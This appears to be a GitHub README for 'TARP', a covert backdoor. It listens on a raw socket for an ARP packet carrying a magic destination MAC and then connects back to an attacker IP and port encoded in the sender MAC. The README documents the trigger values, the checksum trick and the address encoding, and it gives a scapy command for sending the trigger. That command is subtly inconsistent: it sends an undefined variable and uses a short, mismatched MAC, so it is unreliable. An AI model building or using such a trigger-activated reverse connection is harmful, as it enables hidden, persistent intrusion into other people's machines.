 #             TARP - Trigger on ARP 

Establishes a raw socket listener that will trigger based
off of an ARP packet that has the destination hardware MAC set to a
magic number. It will then utilize the arp_sha struct to gather the 
reverse IP and PORT mapping in order to establish the tcp connection to
the attacker. That field is the sender hardware address (MAC).

### DESTINATION HARDWARE ADDRESS = ether[32:37] 

```
| ff | fe | ff | ff | fe | ff | = Current trigger value ff:fe:ff:ff:fe:ff 
```
The code splits this value in half adds the two together and compares against 0x1fffdfe
Therefore the values ff:fd:ff:ff:ff:ff and ff:ff:ff:ff:fd:ff also work.


### SENDER HARDWARE ADDRESS = ether[22:27]
```
| 1f | 77 | c0 | a8 | 01 | ee |   = PORT:8055       ATTACKER IP:192.168.1.238
 ```
Note: Run depmod in order to update modprobe info

### SCAPY Command
a = ARP(hwdst="ff:fe:ff:ff:fe:ff",pdst="192.168.1.238",hwsrc="23:28:c0:a8:01")
send(p)
